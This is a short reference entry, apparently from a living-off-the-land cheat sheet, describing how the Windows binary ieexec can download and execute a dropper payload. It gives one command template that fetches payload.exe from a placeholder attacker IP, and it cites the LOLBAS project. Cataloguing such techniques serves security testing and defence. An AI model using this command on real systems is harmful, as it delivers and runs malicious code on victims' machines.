 # ieexec

Downloads the dropper payload from a web server then executes it.

```
C:\> ieexec.exe http[s]://<attacker_IP>[:<PORT>]/payload.exe
```

---
## References

### LOLBAS

- [LOLBAS: `ieexec`](https://lolbas-project.github.io/lolbas/Binaries/Ieexec/)